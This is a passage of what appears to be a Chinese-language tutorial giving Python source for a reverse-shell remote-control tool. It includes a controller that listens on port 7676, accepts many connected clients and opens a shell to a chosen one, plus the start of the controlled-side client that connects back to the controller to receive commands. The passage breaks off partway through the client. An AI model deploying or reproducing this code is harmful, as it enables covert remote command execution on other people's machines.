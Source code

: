 ```py

    while True:
        num = input('client num:')
        if int(num) >= len(clientList):
            print('Please input a correct num!')
            continue
        else:
            break

    curClient = clientList[int(num)]

    print('=' * 80)
    print(' ' * 20 + 'Client Shell from addr:', curClient[1][0])
    print('=' * 80)

def wait_connect(sk):
    global clientList
    while not quitThread:
        if len(clientList) == 0:
            print('Waiting for the connection......')
        sock, addr = sk.accept()
        print('New client %s is connection!' % (addr[0]))
        lock.acquire()
        clientList.append((sock, addr))
        lock.release()

def main():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',7676))
    s.listen(1024)

    t = threading.Thread(target=wait_connect,args=(s,))
    t.start()

    while True:
        if len(clientList) > 0:
            select_client()  # 选择一个客户端
            shell_ctrl(curClient[0],curClient[1]) #处理 shell 命令

if __name__ == '__main__':
    main() 
```

### 2\. 被控端

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

import socket
import subprocess
import argparse
import sys
import time
import threading

def connectHost(ht,pt):
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect((ht,int(pt)))
    while True:
        data = sock.recv(1024)
        data = data.decode('utf-8')
```